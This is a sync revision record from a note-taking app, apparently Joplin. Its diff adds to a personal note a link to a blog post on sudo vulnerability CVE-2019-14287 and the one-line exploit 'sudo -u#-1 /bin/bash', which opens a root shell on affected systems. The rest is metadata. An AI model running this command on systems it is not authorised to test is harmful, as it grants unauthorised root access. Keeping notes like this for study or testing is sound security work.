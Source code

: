 id: 2a2f8e7a4d0b4f1680a10077f36eb861
parent_id: 6076191719f34381b30f918aadcc61d2
item_type: 1
item_id: 94be54afcb564ee7b6549b0b1bcac941
item_updated_time: 1652352819121
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"nd below\"],[1,\" - https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/\\\n\\\n> sudo -u#-1 /bin/bash\"]],\"start1\":662,\"start2\":662,\"length1\":8,\"length2\":127}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-13T11:13:09.520Z
created_time: 2022-05-13T11:13:09.520Z
type_: 13